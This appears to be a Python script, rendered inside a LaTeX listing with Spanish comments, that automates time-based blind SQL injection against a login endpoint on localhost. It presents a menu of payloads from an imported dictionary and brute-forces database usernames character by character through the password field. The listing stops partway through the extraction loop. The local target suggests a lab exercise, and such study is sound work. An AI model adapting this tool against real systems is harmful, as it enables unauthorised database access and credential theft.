 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
from yaspin import yaspin
import time
import requests
import string
import signal
from termcolor import colored
import dic_inyecciones_time as dic

# controlar CTRL+C
def signal_handler(sig, frame):
    print('\nYou pressed Ctrl+C!')
    exit(0)


signal.signal(signal.SIGINT, signal_handler)


def llamada_api(inyeccion):
    data = {
        "username": 'user1',
        "password": inyeccion
    }

    response = requests.post("http://127.0.0.1:5000/login/postgres/time_based", json=data)

    return response


def menu_inyecciones():
    print(colored("[+] Elige una inyección introduciendo su número:", "red"))
    lista_inyecciones = list(dic.diccionario_inyecciones.keys())
    while True:
        for i, iny in enumerate(lista_inyecciones):
            print(colored(f"{i + 1}", "magenta") + f":{iny.title()}")

        inyeccion = input("Inyección: ")
        try:
            if int(inyeccion) - 1 < len(lista_inyecciones):
                return dic.diccionario_inyecciones[lista_inyecciones[int(inyeccion) - 1]]
            else:
                raise Exception
        except Exception:
            print(colored("[!] Introduce un número válido", "red"))


def main():
    # Configurar el total de pasos
    total_steps = 100

    # Inicializar la palabra a adivinar
    palabra = ""

    # Menu de inyecciones
    inyeccion = menu_inyecciones()

    # Crear un spinner con el texto inicial
    with yaspin(text="Extrayendo usuarios de la BD: ", color="red") as spinner:

        # Obtener todas las letras (mayúsculas y minúsculas) y dígitos
        conjunto_car = list(string.ascii_letters + string.digits)

        # Añadir ',' al principio de la lista
        conjunto_car.insert(0, ",")
        conjunto_car.insert(0, ":")
        for i in range(total_steps + 1):

            for letra in conjunto_car:
                tiempo_inicial = time.time()

                nueva_inyeccion = dic.transformar_inyeccion(inyeccion, palabra + letra, len(palabra) + 1)
                llamada_api(nueva_inyeccion)


\end{lstlisting}
\end{document}
